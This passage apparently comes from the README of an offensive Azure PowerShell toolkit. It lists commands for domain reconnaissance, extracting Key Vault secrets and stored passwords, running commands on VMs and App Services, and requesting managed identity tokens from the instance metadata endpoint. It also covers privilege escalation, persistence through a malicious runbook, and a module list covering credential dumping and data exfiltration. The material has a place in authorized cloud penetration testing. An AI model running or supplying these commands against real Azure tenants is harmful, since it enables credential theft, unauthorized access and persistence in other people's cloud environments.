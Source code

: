 ### **Basic Operations**
```powershell
# Azure domain reconnaissance
Get-AzDomainInfo -domain target-company.com

# Enumerate Azure services and subdomains
Invoke-EnumerateAzureSubDomains -base target-company

# Extract Azure Key Vault secrets
Get-AzKeyVaults-Automation

# Harvest Azure passwords and certificates
Get-AzPasswords

# Execute commands on Azure VMs
Invoke-AzVMBulkCMD -VM target-vm -Command "whoami"

# Extract managed identity tokens
# From Virtual Machine
Invoke-RestMethod -Uri "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -Headers @{Metadata="true"}

# App Services exploitation
Invoke-AzAppServicesCMD -webApp target-app -Command "dir"
```

### **Advanced Attack Scenarios**
```powershell
# Comprehensive Azure assessment
Get-AzDomainInfo -domain target.com -Verbose
Get-AzAutomationAccountCredsREST
Get-AzKeyVaultSecretsREST

# Privilege escalation via managed identities
Invoke-AzElevatedAccessToggle
Get-AzMachineLearningCredentials

# Persistence via Automation accounts
# Deploy malicious runbook for persistence
Invoke-AzHybridWorkerExtraction

# Container and Kubernetes exploitation
Get-AzACR -subscriptionId <id>
Invoke-AzACRTokenGenerator
```

## 📊 **Attack Modules & Scripts**

### **Service-Specific Modules**
- **Key Vault Operations**: Secret extraction, certificate harvesting, automated access
- **Virtual Machine Attacks**: Bulk command execution, credential dumping, lateral movement
- **App Services Exploitation**: Command injection, debugging access, token extraction
- **Storage Account Attacks**: Blob enumeration, public access identification, data exfiltration
- **Automation Account Abuse**: Credential extraction, runbook deployment, scheduled persistence
